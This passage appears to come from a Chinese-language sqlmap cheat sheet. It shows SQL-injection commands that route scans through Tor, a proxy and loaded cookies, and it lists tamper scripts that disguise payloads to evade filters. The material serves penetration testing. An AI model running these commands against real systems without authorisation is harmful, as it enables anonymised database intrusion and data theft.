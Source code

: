 ### 使用TOR网络

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### 使用代理

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### 使用谷歌浏览器的cookie和代理

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### 使用后缀来篡改注入

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### 一些常用的可篡改选项

```powershell
tamper=name_of_the_tamper
```

| Tamper                       | Description                                                  |
| ---------------------------- | ------------------------------------------------------------ |
| 0x2char.py                   | Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),…) counterpart |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload    |
| base64encode.py              | Base64 all characters in a given payload                     |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded) |
| charencode.py                | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54) |
| charunicodeencode.py         | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054) |
| charunicodeescape.py         | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054) |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M' |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)' |
| commentbeforeparentheses.py  | Prepends (inline) comment before parentheses (e.g. ( -> /**/() |
| concat2concatws.py           | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)' |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded) |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded) |
| equaltolike.py               | Replaces all occurances of operator equal ('=') with operator 'LIKE' |
| escapequotes.py              | Slash escape quotes (' and ")                                |